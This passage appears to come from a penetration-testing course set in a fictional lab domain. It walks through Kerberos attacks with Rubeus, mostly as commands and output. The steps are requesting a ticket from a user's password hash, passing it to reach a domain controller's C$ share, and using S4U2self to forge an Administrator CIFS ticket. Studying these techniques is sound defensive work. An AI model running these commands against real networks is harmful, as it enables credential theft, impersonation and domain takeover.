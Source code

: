 #### Using Rubeus to Request a Ticket as Sarah
```powershell-session
PS C:\Tools> .\Rubeus.exe asktgt /rc4:0fcb586d2aec31967c8a310d1ac2bf50 /user:sarah.lafferty /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.2

[*] Action: Ask TGT

[*] Using rc4_hmac hash: 0fcb586d2aec31967c8a310d1ac2bf50
[*] Building AS-REQ (w/ preauth) for: 'INLANEFREIGHT.LOCAL\sarah.lafferty'
[*] Using domain controller: 172.16.99.3:88
[+] TGT request successful!
[*] base64(ticket.kirbi):
<SNIP>
```

Now we can use this ticket and impersonate Sarah:

#### Using Sarah's Ticket to get access to the Domain Controller
```powershell-session
PS C:\Tools> dir \\dc01.inlanefreight.local\c$

 Volume in drive \\dc01.inlanefreight.local\c$ has no label.
 Volume Serial Number is 7674-0745

 Directory of \\dc01.inlanefreight.local\c$

07/27/2020  05:56 PM    <DIR>          Department Shares
07/16/2016  06:23 AM    <DIR>          PerfLogs
07/28/2020  05:35 AM    <DIR>          Program Files
07/27/2020  12:14 PM    <DIR>          Program Files (x86)
07/27/2020  07:37 PM    <DIR>          Software
07/30/2020  07:15 PM    <DIR>          Tools
07/30/2020  11:49 AM    <DIR>          Users
07/30/2020  09:13 AM    <DIR>          Windows
               0 File(s)              0 bytes
               8 Dir(s)  27,711,119,360 bytes free
```

### S4U2self for Non-Domain Controllers

If the target computer is not a domain controller, or if we want to execute attacks other than `DCSync`, we can use `S4U2self` to obtain a Service Ticket on behalf of any user we want to impersonate.

With the ticket captured from `DC01` using `Rubeus monitor` and `SpoolSample` we can use `Rubeus s4u /self` to forge a service ticket for any service. Let's create a ticket to connect through SMB using the `CIFS` service. We will need to use `Rubeus s4u /self`, set the alternative service to `CIFS`, and use the ticket we have:
```powershell-session
PS C:\Tools> .\Rubeus.exe s4u /self /nowrap /impersonateuser:Administrator /altservice:CIFS/dc01.inlanefreight.local /ptt /ticket:doIFZjCCBWKgAwIBBaEDAgEWooIEWTCCB<SNIP>
   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/
```